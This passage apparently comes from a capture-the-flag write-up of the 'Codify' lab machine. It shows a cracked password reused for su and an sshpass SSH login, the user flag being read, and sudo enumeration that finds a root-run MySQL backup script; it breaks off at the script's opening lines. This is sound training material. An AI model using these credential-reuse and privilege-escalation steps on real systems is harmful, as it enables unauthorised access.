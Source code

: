 

It cracks to "spongebob1".

### Shell

That password works for joshua with `su`:



    svc@codify:~$ su - joshua
    Password: 
    joshua@codify:~$



It also works for SSH:



    oxdf@hacky$ sshpass -p spongebob1 ssh joshua@codify.htb
    Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
    ...[snip]...
    joshua@codify:~$



joshua has access to `user.txt`:



    joshua@codify:~$ cat user.txt
    6a3e7712************************



## Shell as root

### Enumeration

joshua can run a backup shell script as root:



    joshua@codify:~$ sudo -l
    [sudo] password for joshua: 
    Matching Defaults entries for joshua on codify:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User joshua may run the following commands on codify:
        (root) /opt/scripts/mysql-backup.sh



### mysql-backup.sh

At a high level, the script is meant to do a dump of the MySQL database
and save it into a backup directory:



    #!/bin/bash
    DB_USER="root"
    DB_PASS=$(/usr/bin/cat /root/.creds)
    BACKUP_DIR="/var/backups/mysql"
